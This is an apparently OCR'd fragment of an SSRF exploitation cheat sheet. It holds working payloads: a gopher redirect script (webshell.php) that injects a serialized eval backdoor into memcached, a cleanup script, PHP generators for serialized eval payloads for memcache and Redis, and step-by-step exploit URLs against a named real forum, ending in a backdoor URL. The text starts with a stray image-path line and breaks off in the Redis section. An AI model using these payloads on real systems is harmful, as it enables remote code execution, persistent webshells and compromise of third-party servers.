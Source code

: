 http://example.com/redirect.php?url=ldap://localhost:11211/%0astats%0aquit

###########################################

PHP-FPM
PHP-FPM universal SSRF bypass safe_mode/disabled_functions/o exploit

###########################################

SSRF memcache Getshell

Generate serialize:

<?php
    $code=array('global_start'=>'@eval($_REQUEST[\'eval\']);');
    echo serialize($code)."\n".strlen(serialize($code));
    
Output:

a:1:{s:12:"global_start";s:25:"@eval($_REQUEST['eval']);";} //datos serializados
59  // longitud del string

webshell.php:

<?php
//Gopher puede ser reemplazado por otros métodos como arriba
    header('Location: gopher://[target ip]:11211/_%0d%0aset ssrftest 1 0 147%0d%0aa:2:{s:6:"output";a:1:{s:4:"preg";a:2:{s:6:"search";s:5:"/.*/e";s:7:"replace";s:33:"eval(base64_decode($_POST[ccc]));";}}s:13:"rewritestatus";i:1;}%0d%0a');
?>

back.php:

<?php
    header('Location: gopher://192.168.10.12:11211/_%0d%0adelete ssrftest%0d%0a');
?>

example:

open the website

http://bbs.biligame.com/forum.php?mod=ajax&action=downremoteimg&message=[img]http://myvps/webshell.php?logo.jpg[/img]
http://bbs.biligame.com/forum.php?mod=ajax&inajax=yes&action=getthreadtypes

clear data

http://bbs.biligame.com/forum.php?mod=ajax&action=downremoteimg&message=[img]http://myserver/back.php?logo.jpg[/img]

backdoor url

http://bbs.biligame.com/data/cache/hello.php

###########################################

SSRF Redis Getshell

Generate serialize:

<?php
    $a['output']['preg']['search']['plugins'] = '/.*/e';
    $a['output']['preg']['replace']['plugins'] = '@eval($_POST['c']);';
    $a['rewritestatus']=1;
    $setting = serialize($a);
    echo $setting."\n".strlen($setting);
?>
